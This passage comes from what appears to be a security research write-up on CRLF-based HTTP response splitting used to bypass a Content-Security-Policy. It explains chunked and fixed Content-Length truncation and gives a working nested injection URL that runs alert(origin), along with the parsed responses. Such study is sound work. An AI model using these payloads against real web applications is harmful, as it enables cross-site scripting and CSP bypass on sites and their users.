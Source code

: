 In here, the first chunk will be `alert(origin)` with the length of `0xd` (13 in decimal). After that, we terminate the rest of the response data with `0x0` length chunk.

Browser parsed response:

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 13
Content-Type: text/javascript

alert(origin)
```

## Fixed Content-Length Response Header Value (The Most Generic Approach)

In most cases, the `Content-Length` header's value is calculated based on **the length of the original response body data**. In the example web application ([Appendix 4](#appendix-4-code-snippet-for-fixed-content-length-response-header-value)), static route `/static/markdown/example.md` will return `Content-Length` value `180`, because the Markdown code is `180` characters long.

Therefore, we can leverage the fixed `Content-Length` value to truncate the invalid JavaScript syntax by appending junk text, so that the length of the injected response body is greater than the fixed `Content-Length` value:

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css%3ftype%3dtext/javascript%250d%250a%250d%250aalert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%22%3E%3C/script%3E
```

- Route `/static/markdown/example.md` fixed `Content-Length` value: `180`
- Route `/static/css/main.css` fixed `Content-Length` value: `98`

Injected response body data: (Append `98 - 15 = 83` junk text)

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"></script>
```

Nested response splitting's response:

```http
HTTP/1.0 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 98
Content-Type: text/javascript

alert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

### Extra: Append Response Headers Only

In the case of you can't really inject 2 CRLF characters to perform response splitting, you could try to inject additional response headers. Below is some headers that may be useful. (*Not tested*)

